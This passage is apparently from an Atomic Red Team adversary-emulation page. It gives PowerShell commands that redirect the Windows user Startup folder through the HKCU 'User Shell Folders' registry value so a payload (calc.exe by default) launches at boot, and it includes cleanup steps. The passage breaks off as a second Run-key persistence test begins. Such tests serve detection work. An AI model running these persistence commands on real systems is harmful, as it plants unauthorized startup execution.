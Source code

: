 



<br/>
<br/>

## Atomic Test #11 - Change Startup Folder - HKCU Modify User Shell Folders Startup Value
This test will modify the HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders  -V "Startup" value 
to point to a new startup folder where a payload could be stored to launch at boot.  *successful execution requires system restart

**Supported Platforms:** Windows


**auto_generated_guid:** 8834b65a-f808-4ece-ad7e-2acdf647aafa





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| new_startup_folder | new startup folder to replace standard one | string | $env:TMP&#92;atomictest&#92;|
| payload | executable to be placed in new startup location | string | C:&#92;Windows&#92;System32&#92;calc.exe|


#### Attack Commands: Run with `powershell`! 


```powershell
New-Item -ItemType Directory -path "#{new_startup_folder}"
Copy-Item -path "#{payload}" -destination "#{new_startup_folder}"
Set-ItemProperty -Path  "HKCU:\Software\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders" -Name "Startup" -Value "#{new_startup_folder}"
```

#### Cleanup Commands:
```powershell
Set-ItemProperty -Path  "HKCU:\Software\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders" -Name "Startup" -Value "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup"
Remove-Item "#{new_startup_folder}" -Recurse -Force
```





<br/>
<br/>

## Atomic Test #12 - HKCU - Policy Settings Explorer Run Key
This test will create a new value under HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run to launch calc.exe on boot. 
*Requires reboot
